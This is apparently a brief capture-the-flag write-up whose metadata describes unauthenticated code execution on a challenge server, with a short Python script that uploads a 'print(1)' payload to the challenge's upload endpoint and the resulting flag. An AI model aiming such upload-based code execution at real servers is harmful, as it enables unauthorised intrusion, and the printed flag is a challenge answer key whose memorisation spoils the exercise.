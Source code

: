 ```yaml
---
ai_date: '2025-04-27 05:13:32'
ai_summary: Executed code in the server without authentication
ai_tags:
- xss
- exec
- payload
created: 2024-08-08T08:22
points: 225
updated: 2024-08-17T20:13
---
```


Honestly IDK how tf I solved this.

Was just testing the endpoint.

```python
from io import BytesIO
import requests

payload = b"""
print(1)
""".strip()

print(requests.post('https://bugcrowd-i-am-watching-you.chals.io/upload', files={'file1': BytesIO(payload)}).text)
```

```flag
flag{the_magic_word}
```